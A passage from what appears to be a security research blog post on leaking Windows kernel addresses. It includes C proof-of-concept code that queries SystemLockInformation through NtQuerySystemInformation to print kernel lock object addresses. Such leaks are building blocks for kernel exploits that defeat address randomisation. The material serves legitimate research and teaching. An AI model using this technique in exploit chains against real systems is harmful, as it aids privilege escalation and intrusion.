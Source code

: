 typedef struct SYSTEM_LOCK_INFORMATION {
	ULONG              LocksCount;
	SYSTEM_LOCK        Locks[1];
} SYSTEM_LOCK_INFORMATION, *PSYSTEM_LOCK_INFORMATION;
</pre>
The key value to note for the SYSTEM_LOCK structure is the Address field which is a pointer to the object in kernel memory.

Much like using SystemExtendedHandleInformation we can't just get NtQuerySystemInformation to give us the needed output buffer size to call it and resort to calling it in a loop util it stops giving the length mismatch error code.
<pre>
PSYSTEM_LOCK_INFORMATION pLockInfo = NULL;
ULONG len = 20;
NTSTATUS status = (NTSTATUS)0xc0000004;

do {
	len *= 2;
	pLockInfo = (PSYSTEM_LOCK_INFORMATION)GlobalAlloc(GMEM_ZEROINIT, len);
	status = query(SystemLockInformation, pLockInfo, len, &len);
} while (status == (NTSTATUS)0xc0000004);
</pre>
Once enough memory has been allocated and the output has been written, we can iterate over the output, printing the fields of interest.
<pre>
for (int i = 0; i < pLockInfo->LocksCount; i++) {
	PVOID lockAddress = pLockInfo->Locks[i].Address;
	USHORT lockType = (USHORT)pLockInfo->Locks[i].Type;
	printf("Lock Address 0x%X\t", lockAddress);
	printf("Lock Type 0x%X\r\n", lockType);
}
</pre>
This can be then be successfully run on Windows 7 32 bit:
![](/content/images/2017/02/SystemLockInformation_info_leak_poc.PNG)

The full code including the changes for 64 bit Windows can be grabbed from [Github](https://github.com/sam-b/windows_kernel_address_leaks/tree/master/NtQuerySysInfo_SystemLockInformation).

## ##SystemExtendedProcessInformation
